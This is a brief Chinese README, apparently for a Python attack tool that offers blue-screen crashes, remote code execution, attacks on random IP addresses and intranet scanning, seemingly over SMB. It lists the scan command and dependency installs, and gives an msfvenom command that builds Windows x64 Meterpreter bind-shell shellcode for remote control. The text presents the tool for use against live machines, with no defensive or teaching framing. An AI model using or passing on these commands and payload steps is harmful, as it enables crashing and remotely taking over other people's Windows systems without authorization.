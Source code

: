 本脚本有蓝屏攻击， 远程代码执行功能, 随机IP攻击功能, 内网扫描
扫描内网的指令
./main.py local

本模块需要netaddr模块
使用指令安装
python3 -m pip install netaddr 或者 pip install netaddr

smbprotocol模块无需手动下载

生成远程控制载荷
	msfvenom -p windows/x64/meterpreter/bind_tcp lport=4444 -f python -o shellcode.txt

本脚本的远程控制代码在网上参考
